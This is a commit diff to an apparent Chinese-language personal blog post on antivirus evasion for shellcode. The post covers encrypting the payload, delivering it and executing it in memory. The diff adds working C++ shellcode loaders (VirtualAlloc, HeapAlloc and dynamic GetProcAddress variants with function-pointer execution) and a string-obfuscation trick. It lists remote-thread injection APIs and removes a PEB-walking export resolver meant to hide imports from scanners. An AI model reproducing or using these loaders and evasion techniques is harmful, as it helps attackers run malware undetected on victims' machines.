

Before and after one commit to ProfesMoriarty/ProfesMoriarty.github.io, a Jekyll site: the page built from posts/bypass.md, in a window 1280 px wide and 1400 px high, scrolled down 1070 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
modify bypass

````diff
--- a/posts/bypass.md
+++ b/posts/bypass.md
@@ -12,17 +12,17 @@ layout: default
 
 ## 杀软查杀方式
 
-其次在做免杀之前，我们必须得了解杀软具体是如何查杀我们的恶意软件的。了解了相应的查杀规则以及方式，我们才能更好的去针对性的绕过以及规避杀软的检测。
-
-对于静态查杀来说，杀软主要识别的就是文件的特征码、敏感函数调用、以及特殊的操作（如循环异或）。因为暂时还没有对杀软查杀规则进行系统性的分析研究，大体的概念与方式都是来源于网上前人的总结。
+其次在做免杀之前，我们必须得了解杀软具体是如何查杀我们的恶意软件的。了解了相应的查杀规则以及方式，我们才能更好的去针对性的绕过以及规避杀软的检测。杀软的大体查杀规则基本是基于文件哈希值（整体哈希/片段哈希等）、字符串特征、API检测、敏感行为检测等这些方面。对于静态检测主要目的是在于绕过对文件哈希字符串导入API等特诊来进行的。
 
 ## 针对性处理
 
-个人认为免杀可以基于三个维度来做：
+个人认为静态免杀可以基于三个维度来做：
 
 1. shellcode生成
 2. shellcode传输
 3. shellcode执行
+
+### shellcode生成
 
 我们可以针对每个维度来针对性的进行处理。首先就是shellcode的生成，现在流行的渗透框架CS、MSF以及一些知名远控生成的shellcode特征已经是被杀软盯得死死的了，如果不进行修改/加密/混淆等处理，基本就属于见光死，见面就得挨杀。
 
@@ -33,125 +33,86 @@ layout: default
 2. 对shellcode进行加密混淆处理，常见的如XOR/base64/AES/DES等方式加密shellcode、按照一定规则插入无效字节、字符偏移表等。
 
 
+### shellcode传输
 
 其次shellcode的传输，也就是shellcode如何到达目标机器，比如直接在代码中硬编码后编译成单文件exe或者dll形式，通过网络协议获取远程shellcode、通过隐写术等方式写入其他文件等方式。相对来说通过网路协议传输或者额外文件中读取（也就是常说的分离免杀）会比单文件形式容易一点。因为上一步会对shellcode做相应的加密混淆等处理，这一步问题不大。
 
-最后就是shellcode的执行了，一段shellcode想要在内存中执行的话需要完成以下步骤：
+### shellcode执行
+
+接下来就是shellcode的执行了，一般shellcode想要在内存中执行的话需要完成以下步骤：
 
 1. 创建/获取一段可读写执行的内存空间
 2. 将shellcode写入这块内存空间
 3. 将程序执行的流程指向这块内存空间
 
-针对这3个步骤常见的通过windows API来执行如：
+shellcode的执行其实说白了也就是shellcode的加载器。最常见的加载器就是通过Windows API来执行：
 
 ```c++
-VirtualAlloc
-MemeryCopy
-CreateThread
+VirtualAlloc  //创建一块内存空间并标记为可读写执行
+MemeryCopy    //向创建的内存空间中写入自己的shellcode
+CreateThread  //将程序执行的流程指向这块内存空间
 ```
 
-以上3个API可以通过替换等效的其他API函数，比如VirtualAlloc 替换为HeapCreate/HeapAlloc，MemeryCopy替换为memcpy，CreateThread替换成指针等来组合使用。但是这种方式免杀效果一般，由于API基本已经被杀软监控的死死的了，我们可以通过动态调用的方式来调用API执行
+以上3个API组合起来就可以执行我们的shellcode了。但是这几个API基本都是属于敏感API了，基本连defender都过不去了。但是以上3个API可以通过替换等效的其他API函数，比如VirtualAlloc 替换为HeapCreate/HeapAlloc，MemeryCopy替换为memcpy，CreateThread替换成指针等来组合使用：
 
 ```c++
-LoadLibrary/GetProcAddress
-GetModuleHandle/GetProcAddress
+//将createThread替换为指针方式执行
+LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode),MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
+memcpy(Memory, shellcode, sizeof(shellcode));
+((void(*)())Memory)();
+//将VirtualAlloc替换成HeapCreate/HeapAlloc
+HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(Shellcode), sizeof(Shellcode));
+char * BUFFER = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(Shellcode));
+memcpy(BUFFER, Shellcode, sizeof(Shellcode));
+(*(void(*)())BUFFER)();
+//再比如远线程注入的方式
+OpenProcess
+VirtualAlloc
+WriteProcessMemory
+CreateRemoteThread
 ```
 
-通过以上API组合可以实现动态获取相应的API来执行shellcode，但是由于还是调用了部分API，所以效果也不是很好。下面我们就可以通过动态获取相应dll的基址，来动态获取相应API的地址来调用相应的API：
+由于API基本已经被杀软监控的死死的了，还可以我们可以通过动态调用的方式来调用API执行
 
 ```c++
-//以下代码来自于看雪论坛
-
-DWORD _getKernelBase()
-{
-    DWORD dwPEB;
-    DWORD dwLDR;
-    DWORD dwInitList;
-    DWORD dwDllBase;//当前地址
-    PIMAGE_DOS_HEADER pImageDosHeader;//指向DOS头的指针
-    PIMAGE_NT_HEADERS pImageNtHeaders;//指向NT头的指针
-    DWORD dwVirtualAddress;//导出表偏移地址
-    PIMAGE_EXPORT_DIRECTORY pImageExportDirectory;//指向导出表的指针
-    PTCHAR lpName;//指向dll名字的指针
-    TCHAR szKernel32[] = TEXT("KERNEL32.dll");
-
-    __asm
-    {
-        mov eax, FS: [0x30]//获取PEB所在地址
-        mov dwPEB, eax
-    }
-
-    dwLDR = *(PDWORD)(dwPEB + 0xc);//获取PEB_LDR_DATA 结构指针
-    dwInitList = *(PDWORD)(dwLDR + 0x1c);//获取InInitializationOrderModuleList 链表头
-//第一个LDR_MODULE节点InInitializationOrderModuleList成员的指针
-
-    for (;
-        dwDllBase = *(PDWORD)(dwInitList + 8);//结构偏移0x8处存放模块基址
-        dwInitList = *(PDWORD)dwInitList//结构偏移0处存放下一模块结构的指针
-    )
-    {
-        pImageDosHeader = (PIMAGE_DOS_HEADER)dwDllBase;
-        pImageNtHeaders = (PIMAGE_NT_HEADERS)(dwDllBase + pImageDosHeader->e_lfanew);
-        dwVirtualAddress = pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress;//导出表偏移
-        pImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(dwDllBase + dwVirtualAddress);//导出表地址
-        lpName = (PTCHAR)(dwDllBase + pImageExportDirectory->Name);//dll名字
-
-        if (strlen(lpName) == 0xc && !strcmp(lpName, szKernel32))//判断是否为“KERNEL32.dll”
-        {
-            return dwDllBase;
-        }
-    }
-    return 0;
-}
-
-/*
-获取指定字符串的API函数的调用地址
-入口参数：_hModule为动态链接库的基址
-_lpApi为API函数名的首址
-出口参数：eax为函数在虚拟地址空间中的真实地址
-*/
-
-DWORD _getApi(DWORD _hModule, PTCHAR _lpApi)
-{
-    DWORD i;
-    DWORD dwLen;
-    PIMAGE_DOS_HEADER pImageDosHeader;//指向DOS头的指针
-    PIMAGE_NT_HEADERS pImageNtHeaders;//指向NT头的指针
-    DWORD dwVirtualAddress;//导出表偏移地址
-    PIMAGE_EXPORT_DIRECTORY pImageExportDirectory;//指向导出表的指针
-    TCHAR** lpAddressOfNames;
-    PWORD lpAddressOfNameOrdinals;//计算API字符串的长度
-    for (i = 0; _lpApi[i]; ++i);
-    dwLen = i;
-
-    pImageDosHeader = (PIMAGE_DOS_HEADER)_hModule;
-    pImageNtHeaders = (PIMAGE_NT_HEADERS)(_hModule + pImageDosHeader->e_lfanew);
-    dwVirtualAddress = pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress;//导出表偏移
-    pImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(_hModule + dwVirtualAddress);//导出表地址
-    lpAddressOfNames = (TCHAR**)(_hModule + pImageExportDirectory->AddressOfNames);//按名字导出函数列表
-    for (i = 0; _hModule + lpAddressOfNames[i]; ++i)
-    {
-        if (strlen(_hModule + lpAddressOfNames[i]) == dwLen &&
-!strcmp(_hModule + lpAddressOfNames[i], _lpApi))//判断是否为_lpApi
-        {
-            lpAddressOfNameOrdinals = (PWORD)(_hModule + pImageExportDirectory->AddressOfNameOrdinals);//按名字导出函数索引列表
-
-            return _hModule + ((PDWORD)(_hModule + pImageExportDirectory->AddressOfFunctions))
-[lpAddressOfNameOrdinals[i]];//根据函数索引找到函数地址
-
-        }
-    }
-    return 0;
-}
+//LoadLibrary/GetProcAddress动态加载VirutalAlloc （其实其他API可以可以通过这种方式去调用）
+HINSTANCE K32 = LoadLibrary(TEXT("kernel32.dll"));
+MYPROC Allocate = (MYPROC)GetProcAddress(K32, "VirtualAlloc");
+char* BUFFER = (char*)Allocate(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
+memcpy(BUFFER, Shellcode, sizeof(Shellcode));
+(*(void(*)())BUFFER)();
+//GetModuleHandle/GetProcAddress
+MYPROC Allocate = (MYPROC)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
+char* BUFFER = (char*)Allocate(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
+memcpy(BUFFER, Shellcode, sizeof(Shellcode));
+(*(void(*)())BUFFER)();
 ```
 
-以上代码通过动态获取dll基址来动态调用API函数，免杀效果不错，这种方式还可以参考 《WindowsPE权威指南》的第11章动态加载技术。
+在上述的代码中，杀软还是可能会将 kernel32.dll VirualAlloc等字符串标记为恶意，我们可以通过字符串的一些小技巧来增加杀软的检测难度，比如：
+
+```c++
+//orignal
+ntdll = LoadLibrary(TEXT("ntdll"))
+//trick
+wchar_t ntdll_str[] = {'n','t','d','l','l',0};
+ntdll = LoadLibrary(ntdll_str)
+```
+
+虽然通过以上API组合可以实现动态获取相应的API来执行shellcode，但是由于还是导入表中还是暴露了部分API。下面我们就可以通过动态获取相应dll的基址，来动态获取相应API的地址来调用相应的API，从而隐藏导入表中暴露的API：
+
+```c++
+//文章中不提供具体的代码，只提供具体思路，按照思路动动手一搜就行了
+//代码可以参考《WindowsPE权威指南》的第11章动态加载技术，以及看雪上前辈们的无私贡献出来的代码。
+```
+
+以上代码通过动态获取dll基址来动态调用API函数，静态免杀效果不错，
 
 
 
 ## 参考链接
 
 * [shellcode execution techniques](https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
+* [engineering-antivirus-evasion](https://blog.scrt.ch/2020/06/19/engineering-antivirus-evasion/)
 * 《WindowsPE权威指南》第11章
 
 [back](../)
````
